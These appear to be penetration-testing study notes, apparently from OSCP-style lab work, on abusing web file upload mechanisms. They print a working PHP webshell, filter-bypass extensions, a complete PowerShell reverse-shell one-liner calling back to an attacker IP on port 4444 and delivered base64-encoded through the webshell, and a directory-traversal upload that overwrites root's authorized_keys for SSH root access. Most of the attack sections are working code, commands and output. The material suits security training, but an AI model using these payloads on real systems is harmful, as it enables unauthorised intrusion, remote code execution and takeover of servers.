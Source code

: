
Three categories
- Vulns enabling us to upload files that are executable by the web app.
	- Ex:  upload a PHP script to a web server where PHP is enabled, and we can execute the script via the browser or curl
- Vulns that require us to combine the file upload mechanism w/ another vuln (like Directory Traversal)
	- Ex: Web app is vulnerable to Directory Traversal, we use the relative path in the file upload request to try and overwrite files like **authorized_keys** or combining file upload mechanisms w/ XXE or XSS attacks
	- Ex: Uploading an avatar to a profile w/ a SVG file type and embed XXE attack to display file contents or execute code
- Relies on user interaction
	- Ex: Discover an upload form for job applications, we can try to upload a CV in .docx format w/ malicious macros integrated.

Web apps using *Apache, Nginx*, or other dedicated web servers often run w/ specific users (ie: *www-data* on Linux)
Windows' IIS web server runs as a *Network Service* account - a passwordless built-in Windows identity w/ low privs.
- IIS v7.5+ have IIS Application Pool Identities - virtual accounts running web apps grouped by *application pools*
	- Each pool has its own pool identity, making it possible to set more precise perms for accounts running webapps

When using programming languages that include their own web server, admins & devs often deploy the webapp w/o any priv structures by running them as *root* or *Admin* to avoid permissions issues.
- Always verify whether we can leverage root or admin privs in a file upload vuln.

Always determine what happens when a file is uploaded twice!
- If indication that the file already exists, possible to brute force the contents of the web server
- If there's an error message displayed, possible leaked info valuable in determining programming language or technologies in use.

# Executable Files

If a web app is a CMS (Content Management System), we can often upload an avatar for our profile or create blog posts & web pages w/ attached files.
If the target is a company website, can often find upload mechanisms in career sections or company-specific use cases
- Target site belongs to a lawyer's office, there may be an upload mech for case files.
- Might not be obvious, so never skip the enumeration phase.


Abuse a file upload mech to achieve code execution & get a revshell

To start, (on lab machine), navigating to the site where we can upload a file/ pic/ etc, test to see what kinds of files are allowed.

Successfully uploading a file extension which wouldn't be expected informs us that the file upload mechanism isn't as restricted as it should be:
```bash
echo "this is a file upload test" > test.txt
```
![](file_upload_test.png)
- Note!  Successful uploads are shown to be uploaded to the "uploads" directory, so we can assume there's a directory named "uploads"

Given that, attempting to upload the **simple-backdoor.php** webshell shows us that while .txt files are allowed for a picture upload, PHP files, on the other hand are not
```php
# simple backdoor
<?php
if(isset($_REQUEST['cmd'])){
	echo "<pre>";
	$cmd = ($_REQUEST['cmd']);
	system($cmd);
	echo "</pre>";
	die;
}
?>
```
![](file_upload_phptest.png)

As these are mixed results, we can't know how the upload filter is implemented.

Potential ways to bypass a filter:
- Use lesser-used PHP file extensions (older ones still supported for compatibility purposes)
	- **.phps**
	- **.php7**
- Change the characters in the file extension to upper case
	- **pHP**

Navigating to the uploads directory and executing the PHP code within our file, should net us results:
```bash
curl http://mountaindesserts.com/meteor/uploads/simple-backdoor.pHP?cmd=dir
	<pre> Volume in drive C has no label.
	 Volume Serial Number is E6C8-741F
	
	 Directory of C:\xampp\htdocs\meteor\uploads
	
	02/20/2024  02:00 PM    <DIR>          .
	05/03/2022  06:02 AM    <DIR>          ..
	05/03/2022  05:21 AM                 0 $sock)
	02/20/2024  02:00 PM               120 simple_backdoor.pHP
	               2 File(s)            120 bytes
	               2 Dir(s)   6,914,285,568 bytes free
	</pre>           
```


### Reverse shell on Windows host

**pwsh** will open a PowerShell prompt on Kali

Now to help make our PS one-liner successful, we'll need to base64 encode it.
```powershell
PS> $Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText
exit

PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

PS> $EncodedText =[Convert]::ToBase64String($Bytes)

PS> $EncodedText
JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0
...
AYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA

PS> exit
```

We can then use the resulting encoded text and tack it on as the **cmd** for our simple-backdoor.pHP upload using **-enc**
```bash
curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0
...
AYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```


# Non-Executable Files

Regardless of whether an attacker can execute an uploaded file, flaws in file uploads can have severe consequences.

Spidering the new OSCP site shows no php file anymore - so assuming PHP isn't used within the web app...

Start up burp and test new site

- Upload test file again
![](file_upload_test.png)

- Send POST request to Repeater and adjust to see if possible to write file to outside of web root
![](upload_outsideWebRoot.png)
- While response shows us the output of the **../** sequence, we can't know if the relative path was used for placing the file.
	- Possible the filename could've merely been echoed and sanitized internally.

- Assuming it *did* work, however, we can attempt to overwrite file in an attempt to get system access
	- **NOTE:** Can brick a system, so exercise *extreme caution*

We can use this (again, assuming it works) to do things like overwrite the **authorized_keys** file in the home directory of root in order to gain access to the system via SSH
- Create an SSH keypair
```bash
#generate public/private rsa key pair
ssh-keygen                                              
	Generating public/private rsa key pair.
	Enter file in which to save the key (/home/kali/.ssh/id_rsa): fileupload
	Enter passphrase (empty for no passphrase): 
	Enter same passphrase again: 
	Your identification has been saved in fileupload
	Your public key has been saved in fileupload.pub
	The key fingerprint is:
	SHA256:yixipYbEeWc+7Aby3jADXjq3v3a6hfJaHrR+tXiuAw0 kali@kali
	The key's randomart image is:
	+---[RSA 3072]----+
	|                 |
	|                 |
	|                 |
	|. .  E           |
	| = o.+o S        |
	|oo=+*+oo .       |
	|.+B*oO=.o .      |
	| ooo&++= o       |
	|  .+=@*.=.       |
	+----[SHA256]-----+


#save to new authorized_keys file that will replace root user's
cat fileupload.pub > authorized_keys
```

Now.   Make sure you turn Burp's Intercept ON before actually uploading the file!   This will allow us to modify the filename to include the directory traversal
![](file_upload_keys.png)
- Click Forward

```bash
# remove previously saved host key/ connection information
rm ~/.ssh/known_hosts

# attempt ssh connection to root user via created private ssh key
ssh -i fileupload -p 2222 root@mountaindesserts.com
	The authenticity of host '[mountaindesserts.com]:2222 ([192.168.193.16]:2222)' can''t be established.
	ED25519 key fingerprint is SHA256:R2JQNI3WJqpEehY2Iv9QdlMAoeB3jnPvjJqqfDZ3IXU.
	This key is not known by any other names.
	Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
	Warning: Permanently added '[mountaindesserts.com]:2222' (ED25519) to the list of known hosts.
	Linux edba7f03a05f 5.4.0-132-generic #148-Ubuntu SMP Mon Oct 17 16:02:06 UTC 2022 x86_64
	
	The programs included with the Debian GNU/Linux system are free software;
	the exact distribution terms for each program are described in the
	individual files in /usr/share/doc/*/copyright.
	
	Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
	permitted by applicable law.
	root@edba7f03a05f:~# 
```